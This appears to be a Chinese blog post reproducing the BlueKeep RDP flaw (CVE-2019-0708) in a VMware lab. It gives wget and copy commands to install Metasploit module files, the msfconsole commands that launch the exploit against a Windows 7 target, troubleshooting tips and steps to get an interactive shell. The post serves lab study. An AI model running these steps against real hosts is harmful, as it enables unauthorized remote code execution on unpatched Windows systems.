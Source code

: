 ```yaml
---
title: CVE-2019-0708远程桌面代码执行漏洞复现
date: 2019-09-07 11:32:52
author: dylan
top: false
cover: false
password: 
categories: web安全
tags: 
    - CVE-2019-0708
    - 漏洞复现
    - RDP
    - 3389
---
```

# 0x01 漏洞概述

Windows系列服务器于2019年5月15号，被爆出高危漏洞，该漏洞影响范围较广如：windows2003、windows2008、windows2008 R2、windows xp系统都会遭到攻击，该服务器漏洞利用方式是通过远程桌面端口3389，RDP协议进行攻击的。CVE-2019-0708漏洞是通过检查用户的身份认证，导致可以绕过认证，不用任何的交互，直接通过rdp协议进行连接发送恶意代码执行命令到服务器中去。如果被攻击者利用，会导致服务器入侵，中病毒，像WannaCry 永恒之蓝漏洞一样大规模的感染。

2019年9月7日晚上凌晨1点左右，metaspolit更新了漏洞利用程序。

# 0x02 影响版本

该漏洞影响旧版本的Windows系统，包括：
Windows 7、Windows Server 2008 R2、Windows Server 2008、Windows 2003、Windows XP

Windows 8和Windows 10及之后版本不受此漏洞影响。

# 0x03 漏洞复现

## 环境搭建

### 靶机

本地使用`VMware Workstation Pro 15` 安装 `win7_x64 SP1`
并设置 允许任何人远程桌面连接
附上 Windows7 SP1下载链接

`ed2k://|file|cn_windows_7_ultimate_with_sp1_x64_dvd_u_677408.iso|3420557312|B58548681854236C7939003B583A8078|/`

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190908214611.png)

### 攻击机KALI
替换所需要的文件
Kali在Terminal下执行如下命令进行替换：
```
wget https://raw.githubusercontent.com/rapid7/metasploit-framework/edb7e20221e2088497d1f61132db3a56f81b8ce9/lib/msf/core/exploit/rdp.rb

wget https://github.com/rapid7/metasploit-framework/raw/edb7e20221e2088497d1f61132db3a56f81b8ce9/modules/auxiliary/scanner/rdp/rdp_scanner.rb

wget https://github.com/rapid7/metasploit-framework/raw/edb7e20221e2088497d1f61132db3a56f81b8ce9/modules/exploits/windows/rdp/cve_2019_0708_bluekeep_rce.rb

wget https://github.com/rapid7/metasploit-framework/raw/edb7e20221e2088497d1f61132db3a56f81b8ce9/modules/auxiliary/scanner/rdp/cve_2019_0708_bluekeep.rb

cp rdp.rb /usr/share/metasploit-framework/lib/msf/core/exploit/

cp rdp_scanner.rb /usr/share/metasploit-framework/modules/auxiliary/scanner/

cp cve_2019_0708_bluekeep_rce.rb /usr/share/metasploit-framework/modules/exploits/windows/rdp/

cp cve_2019_0708_bluekeep.rb /usr/share/metasploit-framework/modules/auxiliary/scanner/rdp/
```


msf升级到5

`apt install metasploit-framework`

进入msf,并重新加载利用模块

`msfconsole`
`reload_all`

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190908215218.png)

使用 **0708RDP** 攻击模块,并设置参数

```
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
set RHOSTS 192.168.134.133
set target 3
exploit
```
target是主机架构选择的意思，一定要选对，
vm装的win7sp1话，先试2，再试3，本文使用1也测试成功,建议试一次重启靶机一次。
选错架构会导致蓝屏、利用失败等问题

如果报如下错误:
```
Exploit failed: NameError undefined local variable or method `rdp_connect' for #<Msf::Modules::Exploit__Rdp__Cve_2019_0708_bluekeep_rce::MetasploitModule:0x00007fd83f439260>
Did you mean?  disconnect
[*] Exploit completed, but no session was created.
```
一般是`rdp.rb`没替换或者放错位置了,重新替换即可


建立连接以后,使用`shell`获得shell
再使用`python`获得交互式shell

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190908220553.png)

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190908220636.png)


# 参考文章
[CVE-2019-0708远程桌面代码执行漏洞复现 - Qiita](https://qiita.com/shimizukawasaki/items/024b296a4c9ae7c33961)
[Windows RDP的RCE漏洞分析和复现（CVE-2019-0708）](https://www.cnblogs.com/backlion/p/11482322.html?from=timeline)